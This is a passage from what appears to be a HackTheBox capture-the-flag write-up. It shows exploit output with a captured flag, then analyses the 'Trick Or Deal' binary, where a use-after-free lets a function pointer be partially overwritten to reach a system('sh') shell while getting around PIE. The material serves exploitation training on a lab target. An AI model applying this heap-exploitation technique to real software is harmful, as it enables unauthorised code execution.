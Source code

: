 
```
[+] Opening connection to 46.101.25.63 on port 32408: Done
buffer: 0x7ffc352ed008
b'\x1b[1;31m[*] The beast seems quiet.. for the moment..\n'
b'HTB{1t5_5p1r1t_15_5tr0ng3r_th4n_m0d1f1c4t10n5}\n'
[*] Closed connection to 46.101.25.63 port 32408
```


# 5. Trick Or Deal
Original files are [here](pwn_trick_or_deal.zip).

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

initialization:
```
storage = malloc(0x50)
*(code **)(storage + 0x48) = printStorage;
```

so storage+0x48 is a function pointer

option 1: calls the function pointer:
```S
      00101106 48 8b 05 33 0f 20 00     MOV                  RAX,qword ptr [storage]
      0010110d 48 8b 50 48              MOV                  RDX,qword ptr [RAX + 0x48]
      00101111 b8 00 00 00 00           MOV                  EAX,0x0
      00101116 ff d2                    CALL                 RDX
```

option 3:   allocate a chunk of user controlled size and write user controlled data to it
```C
        size = read_num();
        offer = malloc(size);
        read(0,offer,size);
```

option 4: free the storage pointer but not zero anything...
```free(storage)```


this function is our target:
```
void unlock_storage(void)

{
    fprintf(stdout,"\n%s[*] Bruteforcing Storage Access Code . . .%s\n",&DAT_001014a6,&DAT_0010149e);
    sleep(2);
    fprintf(stdout,"\n%s* Storage Door Opened *%s\n",&DAT_0010128b,&DAT_001014e1);
    system("sh");
    return;
}
```


the binary is PIE and we dot not know the base address, luckily because the cpu use little endian, we can only overwrite least 2 significat bytes of the function pointer without touch to the base.

```
% objdump -M intel -d trick_or_deal| grep 'printStorage>:'
0000000000000be6 <printStorage>: